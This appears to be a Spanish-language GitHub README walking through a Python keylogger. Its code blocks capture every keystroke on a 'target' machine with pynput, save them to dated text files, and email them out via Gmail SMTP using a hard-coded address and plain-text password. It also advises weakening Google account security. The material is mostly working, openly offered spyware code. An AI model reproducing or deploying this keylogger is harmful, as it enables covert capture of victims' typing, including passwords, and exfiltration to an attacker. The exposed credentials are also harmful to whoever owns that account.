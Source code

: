 # --> TARGET --->> PARROT OS 


* Requerimientos : Instalar pynput

```bash
pip install pynput
``` 
# Importante: reinicia tu editor de codigo despues de instalar pynput.

# Apreta el HackMode > ON!

```bash
from pynput.keyboard import Listener

def capturar_teclas(key):
    print(key)
    
with Listener(on_press=capturar_teclas) as l:
    l.join()
```   

![EMPEZAMOS A CAPTURAR](https://user-images.githubusercontent.com/97669969/159133261-b7100e64-e532-4f0b-a776-ee9ca6c859ae.png)
* Empezamos a capturar las teclas de nuestra target.



# Guardamos todo en un documento '.txt'.

```bash

from pynput.keyboard import Listener
import datetime

d = datetime.datetime.now().strftime("%Y-%m-%d_%H-%M-%S")

file = open('keylogger-{}.txt'.format(d),'w')

        
def capturar_teclas(key):
    
    key = str(key)
    if key == 'Key.enter':
        file.write("\n")
    elif key == 'Key.space':
        file.write(" ")
    elif key == 'Key.backspace':
        file.write('%BORRAR%')
    else:
        file.write(key.replace("'",""))
    print(key)

with Listener(on_press=capturar_teclas) as l:
    l.join()
```

![guradar txt](https://user-images.githubusercontent.com/97669969/159135961-8b358780-7b10-44d7-b568-703aa8a0b0d6.png)
* El documento .txt esta creado, incluso implementamos un segundo .txt con fechas y hora , diario.

# Envio de correo con Gmail.com
# HackMode TIP! : a partir de 30 de mayo del 2022 gmail bloquea todas las apps noseguras.
* PARA ESO : en tu cuenta de google debes Permitir el acceso de aplicaciones menos seguras: en 'SÍ'

![gmail no seguras](https://user-images.githubusercontent.com/97669969/159137846-683e2398-b806-4292-86c6-d71bc174b67d.png)


```bash
from http import server
import smtplib

mensaje = "Subject:Correo desde Target1 \nHola desde email.py"

server_smtp = smtplib.SMTP("smtp.gmail.com",587)

server_smtp.starttls()

server_smtp.login("deniseduranbybit@gmail.com","Deniseduran2@")

server_smtp.sendmail("deniseduranbybit@gmail.com","deniseduranbybit@gmail.com", mensaje)

server_smtp.quit()

print("Correo enviando correctamente")
```

![envio de correo parrot](https://user-images.githubusercontent.com/97669969/159138025-d4a906b7-e5dd-4f8b-af83-08a57512966b.png)



* Recibimos el correo desde nuestras !Targets!

![corre envio ubuntu](https://user-images.githubusercontent.com/97669969/159137793-d7097c7b-a3ce-4455-8231-265b10f91d10.png)



